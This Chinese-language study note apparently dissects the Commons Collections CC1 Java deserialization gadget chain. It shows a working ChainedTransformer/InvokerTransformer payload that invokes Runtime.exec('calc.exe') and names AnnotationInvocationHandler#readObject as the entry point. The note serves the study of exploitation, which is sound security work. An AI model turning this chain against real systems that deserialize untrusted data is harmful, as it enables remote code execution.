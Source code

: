 其中这两行一眼反射, 参数均可控,所以是任意方法调用

```java
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
// 常见利用链写法
//Runtime runtime =  Runtime.getRuntime(); 
// Class<? extends Runtime> aClass = runtime.getClass();
// Method exec = aClass.getMethod("exec", String.class);
// exec.invoke(runtime,"calc");
// 所以这里 input为 ( input为Runtime.getRuntime())
```

其中 `iMethodName` 和 `iParamTypes` 都在构造方法中有定义

```java
private InvokerTransformer(String methodName) {
        this.iMethodName = methodName;
        this.iParamTypes = null;
        this.iArgs = null;
    }
```

测试一下该类的反射

```java
Runtime r = Runtime.getRuntime();
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
```

对应的 payload部分

```java
Transformer transformerChain = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class} ,new Object[]{"getRuntime",new Class[0]}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"})
});
```

利用链入口点: `sun.reflect.annotation.AnnotationInvocationHandler#readObject` 

### ChainedTransformer

是transform接口的继承类 链式调用transform

![Untitled](CC1%E9%93%BE%20ad69119d616143c886a2aca12c8b6832/Untitled%201.png)
